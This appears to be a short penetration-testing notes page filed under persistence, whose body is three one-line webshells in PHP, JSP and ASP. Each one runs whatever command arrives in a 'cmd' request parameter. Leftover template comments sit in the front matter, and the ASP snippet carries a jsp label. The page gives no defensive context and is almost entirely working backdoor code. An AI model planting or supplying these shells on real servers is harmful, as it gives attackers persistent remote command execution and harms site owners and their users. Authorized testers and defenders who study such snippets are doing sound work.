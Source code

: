 ```yaml
---
description: >-
  Webshells
title: WebShells              # Add title here
date: 2023-12-26 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence, Webshells]                     # Change Templates to Writeup
tags: [persistence, webshell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### PHP WEBSHELL
```php
<?php system($_REQUEST["cmd"]); ?>
```
### JSP WEBSHELL
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
### ASP WEBSHELL
```jsp
<% eval request("cmd") %>
```